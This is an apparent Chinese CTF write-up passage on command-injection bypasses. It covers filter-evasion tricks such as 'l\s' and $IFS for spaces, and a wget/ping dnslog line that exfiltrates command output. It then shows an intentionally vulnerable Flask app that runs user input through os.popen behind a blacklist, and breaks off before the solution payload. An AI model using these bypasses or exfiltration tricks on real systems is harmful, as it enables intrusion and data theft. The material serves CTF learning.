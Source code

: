 payload **url编码** 一下之后就随意RCE了

## bashshell

pythonshell其实一般就是bashshell了(我要讲的)

基本上都是纯纯的过滤~

1.**l\s**绕过函数过滤

2.短命令执行在七夕杯的wp中写的很详细了

3.`< 、<>、%20(space)、%09(tab)、$IFS$9、 ${IFS}、$IFS`等等绕过空格

4.**wget**或者**ping**配合dnslog获得信息

```
wget `ls`.xxx.dns.log
```



### 题解

```python
from flask import Flask, request, make_response 
import uuid 
import os 
#flag in /flag 
app = Flask(__name__) 
def waf(rce): 
    black_list = '01233456789un/|{}*!;@#\n`~\'\"><=+-_ ' 
    for black in black_list: 
        if black in rce: 
            return False 
    return True 
@app.route('/', methods=['GET']) 
def index(): 
    if request.args.get("Ňśś"): 
        nss = request.args.get("Ňśś") 
    if waf(nss): 
        os.popen(nss) 
    else: 
        return "waf" 
    return "/source"
@app.route('/source', methods=['GET']) 
def source(): 
    src = open("app.py", 'rb').read() 
    return src 



if __name__ == '__main__': app.run(host='0.0.0.0', debug=False, port=8080)
```

过滤了很重要的`/`而flag又在/flag中，所以本题一开始我就想着怎么反弹shell了
后面也发现了确实不行。。。
一位师傅给出的payload
